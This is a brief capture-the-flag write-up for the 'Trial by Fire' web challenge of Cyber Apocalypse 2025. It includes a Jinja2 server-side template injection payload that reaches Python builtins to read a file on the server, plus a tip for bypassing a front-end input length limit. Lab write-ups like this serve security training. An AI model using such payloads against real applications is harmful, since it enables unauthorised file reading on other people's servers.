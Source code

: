 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2025 | Trial by Fire Writeup
desc: Check out our writeup for Trial by Fire for Cyber Apocalypse 2025 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2025
parent: cyber_apocalypse_2025
category: web
challenge: Trial by Fire
tags: "web, twh, ssti"
date: 2025-03-29T00:00:00+00:00
last_modified_at: 2025-03-29T00:00:00+00:00
---
```



> Solved by thewhiteh4t


- We have an input and a hint for SSTI `Can you read the runes? Perhaps 49 is the key.`
- On the battle result page we can see that SSTI is working


![](https://i.imgur.com/XcNrIpA.png)

- Payload :

```
{% raw %}
    {{ request.__class__._load_form_data.__globals__.__builtins__.open("/app/flag.txt").read() }}
{% endraw %}
```

- Length of the input is restricted in the front-end, so we can either edit the length in inspect or simply use burp


![](https://i.imgur.com/aBge1Lj.png)

